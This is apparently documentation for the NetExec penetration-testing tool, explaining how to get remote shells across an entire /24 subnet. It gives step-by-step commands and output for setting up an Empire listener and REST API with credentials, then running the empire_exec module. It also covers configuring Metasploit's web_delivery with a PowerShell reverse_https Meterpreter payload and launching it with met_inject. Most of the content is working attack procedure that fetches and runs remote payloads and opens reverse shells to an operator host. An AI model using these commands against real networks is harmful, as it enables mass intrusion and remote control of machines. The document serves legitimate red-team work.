 # Getting Shells 101

## Getting Shells 101

We all love shells and that's why nxc makes it as easy as possible to get them! There really is something magical about shelling a /24

## Empire Agent

{% hint style="info" %}
Use the new Empire in Python3 [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)
{% endhint %}

We can use the `empire_exec` module to execute an Empire Agent's initial stager. In the background, the module connects to Empire's RESTful API, generates a launcher for the specified listener and executes it.

* First setup the rest API:

```
#~ python powershell-empire --rest --user empireadmin --pass Password123!
[*] Loading modules from: /home/mpgn/Tools/Empire/lib/modules/
 * Starting Empire RESTful API on port: 1337
 * RESTful API token: l5l051eqiqe70c75dis68qjheg7b19di7n8auzml
 * Running on https://0.0.0.0:1337/ (Press CTRL+C to quit)
```

* Second setup a listener:

```
(Empire: listeners) > set Name test
(Empire: listeners) > set Host 192.168.10.3
(Empire: listeners) > set Port 9090
(Empire: listeners) > set CertPath data/empire.pem
(Empire: listeners) > run
(Empire: listeners) > list

[*] Active listeners:

  ID    Name              Host                                 Type      Delay/Jitter   KillDate    Redirect Target
  --    ----              ----                                 -------   ------------   --------    ---------------
  1     test              http://192.168.10.3:9090                 native    5/0.0                      

(Empire: listeners) > 
```

The username and password that nxc uses to authenticate to Empire's RESTful API are stored in the nxc.conf file located at \~/.nxc/nxc.conf:

```
[Empire]
api_host=127.0.0.1
api_port=1337
username=empireadmin
password=Password123!

[Metasploit]
rpc_host=127.0.0.1
rpc_port=55552
password=abc123
```

* Then just run the `empire_exec` module and specify the listener name:

```
#~ NetExec 192.168.10.0/24 -u username -p password -M empire_exec -o LISTENER=test
```

## Meterpreter

We can use the `metinject` module launch a meterpreter using [Invoke-MetasploitPayload](https://github.com/jaredhaight/Invoke-MetasploitPayload) `Invoke-MetasploitPayload.ps1` script.

On your Metasploit instance, run the following commands

```
use exploit/multi/script/web_delivery
```

The SRVHOST and SRVPORT variables are used for running the webserver to host the script

```
set SRVHOST 10.211.55
set SRVPORT 8443
```

The `target` variable determines what type of script we're using. `2` is for PowerShell

```
set target 2
```

Pick your payload. In this case, we'll use a reverse https meterpreter payload

```
set payload windows/meterpreter/reverse_https
set LHOST 10.211.55
set LPORT 443
```

Run the exploit

```
run -j
```

Once run, the web\_delivery module will spin up the webserver to host the script and reverse listener for our meterpreter session.

```
msf exploit(web_delivery) > run -j
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://10.211.55.4:8443/
[*] Using URL: http://10.211.55.4:8080/eYEssEwv2D
[*] Local IP: http://10.211.55.4:8080/eYEssEwv2D
[*] Server started.
```

* Then just run the `met_inject` module and specify the LHOST and LPORT values:

```
#~ NetExec 192.168.10.0/24 -u username -p password -M met_inject -o SRVHOST=192.168.10.3 SRVPORT=8443 RAND=eYEssEwv2D SSL=http
```
